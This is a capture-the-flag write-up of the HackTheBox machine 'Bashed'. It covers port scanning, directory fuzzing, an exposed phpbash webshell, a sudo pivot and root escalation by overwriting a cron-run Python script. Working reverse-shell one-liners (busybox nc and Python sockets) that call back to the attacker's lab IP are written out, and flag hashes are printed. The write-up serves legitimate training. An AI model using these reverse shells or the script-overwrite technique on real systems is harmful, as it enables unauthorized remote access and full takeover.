 ```yaml
---
render_with_liquid: false
title: HackTheBox Writeup  Bashed
date: 2023-09-29 18:08:01 +1400
tags: [hackthebox, nmap, linux, feroxbuster, discover-webshell, sudo, scheduled-job-abuse, python-script, pwncat, oscp-like]
---
```




Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,


# Recon
---

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ writehosts htb '10.129.68.38 bashed.htb'
+---------+--------+--------------+------------+
| PROFILE | STATUS |      IP      |   DOMAIN   |
+---------+--------+--------------+------------+
| htb     | on     | 10.129.68.38 | bashed.htb |
+---------+--------+--------------+------------+
```


## Nmap

```bash

# Nmap 7.94 scan initiated Fri Sep 29 18:07:49 2023 as: nmap -sVC -T4 -Pn -vv -oA ./nmap/full_tcp_scan -p 80 bashed.htb
Nmap scan report for bashed.htb (10.129.1.104)
Host is up, received user-set (0.056s latency).
Scanned at 2023-09-29 18:08:01 CST for 11s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Fri Sep 29 18:08:12 2023 -- 1 IP address (1 host up) scanned in 22.74 seconds
```


## 80 - HTTP : Arrexel's Development Site


### Info

![](/assets/obsidian/ba9bf479e3316dcab03707ecb683a0e6.png)

### Directory

```bash
feroxbuster -k -t 150 -u 'http://bashed.htb' -o ferox_80.txt
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ cat ferox_80.txt|awk '$1!=404'|grep -vE 'bashed.htb/js/|bashed.htb/fonts/|bashed.htb/images/|bashed.htb/css/'
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/fonts (Apache)
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/js (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/images (Apache)
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/php (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://bashed.htb/dev (Apache)
200      GET        0l        0w        0c http://bashed.htb/php/sendMail.php
200      GET      216l      489w     8151c http://bashed.htb/dev/phpbash.php
200      GET        1l      255w     4559c http://bashed.htb/dev/phpbash.min.php
200      GET      161l      397w     7743c http://bashed.htb/
```


### Sub Domains


# User Flag
---


# Root Flag
---

## Start pwncat-cs listener

I'm decided to play with [pwncat](https://github.com/calebstewart/pwncat) this time, haven't used it for a while.

Found it useful as a light weight C2 while playing **hackthebox battlegrounds** recently

Its main functions are : `Multi sessions`, `Upload/Download command`, `Auto spawn tty (Sets stty row,columns and TERM env value)`

> I'm a fan of **tmux**, and it allows me to automate some workflows like the one liner below
{: .prompt-info }

```bash
┌──(bravosec㉿fsociety)-[~/htb/Bashed]
└─$ tmux send-keys 'listen -m linux 1111' ENTER & pwncat-cs
```

The interface is beautiful

![](/assets/obsidian/c0c68a707f63a62573cac87a4cfd439e.png)

## Shell as www-data


### phpbash webshell exposure

Click on the `phpbash` article, it reveals an open source project it's using

![](/assets/obsidian/b09effa110f54147212a4ef3e6ecdaf9.png)

> [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)

It's a webshell with no password authentication feature

Visit http://bashed.htb/dev/phpbash.php which was discovered by **feroxbuster**

![](/assets/obsidian/fadab37b2487dfbe90feec7e2ade6573.png)

Now get a reverse shell

> **Revshell cheat sheet**
> Another amazing tool I discovered during htb battlegrounds
> > https://github.com/H0j3n/EzpzShell
{: .prompt-tip }

Tried some `bash`, `python3` and `netcat` reverse shells, none of them worked

These worked:

```bash

# (Trick) Solve nc version issue : use the nc from busybox
busybox nc 10.10.16.13 1111 -e bash


# Python2 revshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Press `CTRL + D` to detach/attach session in pwncat
{: .prompt-info }

![](/assets/obsidian/42de5647440f920bd5db7ebaef0583b9.png)

## From www-data to scriptmanager


### SUDO

```bash
(remote) www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```bash
(remote) www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

```bash
scriptmanager@bashed:/var/www/html/dev$ cat ~/user.txt
cat: /home/scriptmanager/user.txt: No such file or directory
scriptmanager@bashed:/var/www/html/dev$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```


## From scriptmanager to root


### Schedule Job - Improper permission set on script

Find what the user owns

```bash
find / \( -path /run -o -path /sys -o -path /proc -o -path /var/lib \) -prune -o -user $USER -ls 2>/dev/null
```

![](/assets/obsidian/297a073bd8f1f80d75b401545b808932.png)

I guessed the `/script/test.py` will be run as root (too lazy to start **pspy** XD) since the owner of `test.txt` (Created by the python script) was root

Replace the script with reverse shell

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.13",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /scripts/test.py
```

Got a shell as root within about 30 secods

![](/assets/obsidian/4b4676da9a501843a21ba729e5d6c1a6.png)

```bash
(remote) root@bashed:/scripts#
(remote) root@bashed:/scripts# cd /root
(remote) root@bashed:/root# ls -la
total 28
drwx------  3 root root 4096 Sep 29 02:58 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Sep 29 02:58 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
(remote) root@bashed:/root# cat root.txt
29eb4fe26e76d309de80c49c5c5f2649
(remote) root@bashed:/root# cat /home/
arrexel/       scriptmanager/
(remote) root@bashed:/root# cat /home/arrexel/user.txt
676ef72038a146124670c90693c7c5f9
(remote) root@bashed:/root#
```


# Additional
---

